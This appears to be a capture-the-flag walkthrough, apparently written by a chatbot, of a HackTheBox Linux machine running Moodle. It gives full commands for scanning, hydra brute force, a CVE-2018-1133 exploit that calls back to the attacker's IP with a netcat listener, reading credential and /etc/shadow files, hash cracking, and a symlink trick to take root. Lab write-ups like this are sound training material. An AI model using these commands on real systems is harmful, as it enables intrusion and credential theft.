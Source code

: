## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🔎 Reconnaissance

### Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.153
```

### Targeted Service Scan
```bash
nmap -sC -sV -p 80 -oA scans/nmap_services 10.10.10.153
```

---

## 🌐 [Web Enumeration](HTTP.md)

### Directory Bruteforcing with Gobuster
```bash
gobuster dir --url http://10.10.10.153 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 50
```

### Discover Hidden Credential in Image
```bash
wget http://10.10.10.153/images/5.png
mv 5.png 5.txt
cat 5.txt
```

### Generate Password List (Python)
```python
#!/bin/python3
import string

partial_pass = 'Th4C00lTheacha'

for c in string.printable:
    print(partial_pass + c)
```

### Brute Force Moodle Login with Hydra
```bash
hydra -l giovanni -P passlist.txt 10.10.10.153 \
http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&Login=Login:Invalid login"
```

---

## 💻 Remote Code Execution (Moodle CVE-2018–1133)

### Use MoodleExploit (PHP)
```bash
php MoodleExploit.php url=10.10.10.153/moodle \
user=giovanni pass='Th4C00lTheacha#' \
ip=10.10.14.51 port=80 course=2
```

### Netcat Listener
```bash
nc -nvlp 80
```

---

## 🧬 Post Exploitation: Privilege Escalation

### 📂 Find Moodle DB Credentials
```bash
cat /var/www/html/moodle/config.php
```

### Connect to MySQL with DB creds
```bash
mysql -u root -p
# Password: Welkom1!
```

### Extract Moodle User Hashes
```sql
USE moodle;
SELECT username, password FROM mdl_user;
```

### Crack MD5 Hash with Hashcat
```bash
hashcat -m 0 hashcat.input /usr/share/wordlists/metasploit/password.lst --force
```

### Switch to giovanni User
```bash
su giovanni
# or SSH with cracked password 'expelled'
```

---

## 🚀 PrivEsc via backup.sh Logic Flaw

### 📁 Create Symlink to /etc/shadow
```bash
ln -s /etc/shadow ~/work/tmp/link
cp ~/work/tmp/link shadow.backup
```

### ✏️ Replace root hash with giovanni's
Edit `/etc/shadow` and copy giovanni’s hash to root’s line.

### Become Root
```bash
su -
# Password: expelled
```

### ✅ Restore Original Shadow File
```bash
cp ~/work/shadow.backup /etc/shadow
```

---

## 🧠 Optional: Symlink to Entire FS (Not Recommended)
```bash
ln -s / tmp/allfolders
```

---

Let me know if you'd like a downloadable Markdown file for this one or want it merged into a full HTB notes doc!